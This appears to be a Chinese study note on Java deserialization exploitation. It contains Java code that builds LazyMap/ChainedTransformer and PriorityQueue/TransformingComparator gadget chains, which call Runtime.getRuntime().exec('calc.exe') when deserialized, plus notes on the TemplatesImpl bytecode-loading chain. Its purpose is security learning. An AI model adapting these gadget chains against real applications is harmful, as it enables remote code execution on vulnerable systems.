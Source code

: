 ```java
    // lazyMap没有就调用transformer

    Class c = lazyMap.getClass();
    Field f = c.getDeclaredField("factory");
    f.setAccessible(true);
    f.set(lazyMap, chainedTransformer);
    byte[] s = Tools.serialize(expMap);
    Tools.unserialize(s);
}
```

重新理解了W4terTransformer里链条的调用

```java
public static void main(String[] args) throws Exception {
    W4terInvokerTransformer it0 = new W4terInvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null});
    W4terInvokerTransformer it1 = new W4terInvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null});
    W4terInvokerTransformer it2 = new W4terInvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
    // it2.transform(it1.transform(it0.transform(Runtime.class)));
    W4terTransformingComparator comparator0 = new W4terTransformingComparator(it2, new W4terComparator());
    W4terTransformingComparator comparator1 = new W4terTransformingComparator(it1, comparator0);
    W4terTransformingComparator comparator2 = new W4terTransformingComparator(it0, comparator1);
    PriorityQueue queue = new PriorityQueue(2, new W4terComparator());
    queue.add(Runtime.class);
    queue.add(Runtime.class);
    Class c = queue.getClass();
    Field f = c.getDeclaredField("comparator");
    f.setAccessible(true);
    f.set(queue, comparator2);
    byte[] o = serialize(queue);
    unserialize(o);
}
```

 
 

# java反序列化
## TemplatesImpl学习
> TemplatesImpl#newTransformer() ->
> TemplatesImpl#getTransletInstance() ->
> TemplatesImpl#defineTransletClasses() ->
> TransletClassLoader#defineClass()
>
> [Java反序列化基础篇-05-类的动态加载 | Drunkbaby's Blog](https://drun1baby.top/2022/06/03/Java反序列化基础篇-05-类的动态加载/#6-TemplatesImpl-加载字节码)

